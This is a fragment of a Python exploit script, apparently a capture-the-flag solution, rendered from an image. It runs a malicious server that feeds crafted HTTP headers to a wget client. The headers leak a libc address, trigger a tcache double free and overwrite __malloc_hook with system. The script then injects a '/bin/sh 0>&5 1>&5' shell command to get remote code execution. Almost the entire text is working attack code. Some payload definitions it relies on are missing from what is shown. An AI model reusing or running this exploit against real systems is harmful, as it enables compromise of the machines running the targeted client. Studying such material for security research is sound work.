 ```python
    
    payload4 = b''
    
    payload5 = b'content-length: 15\r\n' + (b'location: /11' + catflag + b'\r\n') * 4 + b'\r\n\0\r\n'
    
    leak = 0
    free_hook = 0
    system = 0
    
    # serrver function
    def run_server(host="127.0.0.1", port=4000):
            add_flag = 0 # phase
            g_con = None # global connection
            with socket.socket() as s:
                    s.bind((host, port))
                    s.listen(5) # listen
                    while True:
                            conn, addr = s.accept()
                            g_con = conn
    
                            msg = conn.recv(1024) # get request from wget client
                            print("requset size : " + str(len(msg)))
                            print(msg) # print request
    
                            if b'/xx' in msg: # phase 2 : get leak
                                    leak = u64(msg[12:18] + b'\0\0')
                                    print("LEAK : " + hex(leak))
                                    malloc_hook = leak - 0x7ffff7dcfca0 + 0x7ffff7dcfc30 - 1
                                    system = leak - 0x7ffff7dcfca0 + 0x7ffff7a33440
                                    print(payload2)
                                    conn.sendall(payload2)
                            elif b'/ ' in  msg: # phase 1 : make leak
                                    print("MAKING LEAK")
                                    conn.sendall(payload1)
                            elif b'/11' in msg: # phase 4 : arbitry writing
    
                                    if add_flag != 0: # write __malloc_hook
                                            payload4 = payload4_f + b'location: ' + p64((malloc_hook & 0xffffffffffffff00) | 0x2f) + b'\r\nlocation: /1\r\n' + b'location: /' + p64(system) + b'\r\ncontent-length: ' + str(((malloc_hook & 0xffffffffffffff00) | 0x2f) + 0x1300).encode() + payload4_b
                                            add_flag = 2 # attack ends
    
                                    else: # write "/bin/sh 0>&5 1>&5" remote shell command
                                            payload4 = payload4_f + b'location: ' + p64(((malloc_hook & 0xffffffffffffff00) | 0x2f) + 0x1300) + b'\r\nlocation: /1\r\n' + \
                                                    b'location: /\n/bin/sh 0>&5 1>&5\r\nlocation: /;' + b';' * 130 + payload4_b
                                            add_flag = 1 # command prepared
    
                                    print(payload4)
                                    conn.sendall(payload4)
    
                                    if add_flag ==2: # attacking loop ends
                                            break
    
                            elif b'/;' in msg: # tcache double free : size 0x20 again
                                    print("Erm...")
                                    conn.sendall(payload5)
    
                            elif b'/@' in msg: # unused
                                    conn.sendall(b'content-length: 10\r\n\0\r\naaaa')
    
```
